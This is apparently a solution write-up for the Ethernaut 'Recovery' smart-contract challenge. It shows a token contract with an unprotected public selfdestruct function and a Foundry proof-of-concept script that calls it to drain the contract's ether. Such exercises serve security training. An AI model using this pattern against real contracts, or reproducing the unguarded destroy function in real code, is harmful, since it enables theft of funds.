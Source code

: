 ```yaml
---
title: "Recovery"
date: "2024-02-24"
lastmod: "2024-02-24T21:53:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Preservation-15486d553b7048eba93be9c33dcdd447"
weight: 18
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/17"
next: "Magic-Number-6d707756089b4bb286e3ce6cad62ac5c"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "1efddca3-f4ed-4053-a79c-b06c27873d49"
  created_time: "2024-02-24T13:24:00.000Z"
  last_edited_time: "2024-02-24T21:53:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel17.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Preservation-15486d553b7048eba93be9c33dcdd447"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Preservation-15486d553b7048eba93be9c33dcdd447"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-24"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 18
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/17"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Magic-Number-6d707756089b4bb286e3ce6cad62ac5c"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Magic-Number-6d707756089b4bb286e3ce6cad62ac5c"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Recovery"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Recovery"
          href: null
  url: "https://www.notion.so/Recovery-1efddca3f4ed4053a79cb06c27873d49"
  public_url: null
UPDATE_TIME: "2024-02-24T21:53:42.156Z"
EXPIRY_TIME: "2024-02-24T22:53:37.410Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


A contract 
creator has built a very simple token factory contract. Anyone can 
create new tokens with ease. After deploying the first token contract, 
the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.


This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```


Solution:


Here the `INSTANCE_17` address is not the level instance but the token address (you can get it looking at an blockchain explorer)


![](/images/408b0c8a-d185-4064-9186-154d3e914511.png)


An other method would have been to calculate the contract address by hands but this is cumbersome here…


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface SimpleToken {
  function destroy(address payable _to) external;
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_17");
        address pubKey = vm.envAddress("PUBLIC_KEY");

        vm.startBroadcast(deployerPrivateKey);

        SimpleToken simpleToken = SimpleToken(addr);

        console.logUint(addr.balance);

        simpleToken.destroy(payable(pubKey));

        console.logUint(addr.balance);

        vm.stopBroadcast();

    }
}
```

